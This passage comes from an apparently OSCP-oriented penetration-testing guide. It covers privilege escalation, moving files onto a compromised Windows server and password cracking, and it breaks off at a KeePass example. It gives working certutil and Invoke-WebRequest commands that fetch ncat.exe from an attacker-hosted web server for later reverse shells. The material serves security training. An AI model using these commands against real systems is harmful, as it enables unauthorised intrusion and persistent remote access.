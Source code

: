     In the end though we still get code execution as a user with
    higher privileges.
    

As we can see, the core ideas in both linux and windows privilege
escalation are very similar. It's just how these ideas are then
actually performed that can become drastically different depending
on the platform we're trying to attack.

**Example** (File transfer): Consider you just obtained your reverse
shell on a windows server. You now want to transfer some files,
like a static `ncat.exe` for future reverse shell. To this, we
first create a temporary folder in `C:\`

```
mkdir C:\TEMP
cd C:\TEMP
```

then, on our kali box, we launch a web server on the folder where
we have all our malicious payloads and exeutables

```
cd ~/oscp-tools
$python3 -m http.server 1337
```

at this point back in the victim windows machine we can either
use **certutil.exe** as follows

```
certutil -urlcache -split -f "http://192.168.45.170:1337/ncat.exe" ncat.exe
```

or the powershell **iwr** (Invoke-WebRequest) cmdlet

```
iwr -uri http://192.168.45.170:1337/ncat.exe -Outfile ncat.exe
```

### [#](https://blog.leonardotamiano.xyz/tech/oscp-technical-guide/#password-attacks)**Password Attacks**

A set of important techniques to learn well is how to deal with
passwords and in general with authentication mechanism. To start
off, one must build a solid understanding of the concept of
**hashing** and how to deal with **hashed passwords**.

Given that many different software protect passwords through
hashing, the idea here is to build a repertoire of commands that
will let us deal with all of these software in order to perform
**password cracking** using well known **password wordlists**. When it
comes to wordlists, from what I've understood the **rockyou.txt**
wordlist will do enough when it comes to password cracking.

Some example are shown below

- **KeePass database**
    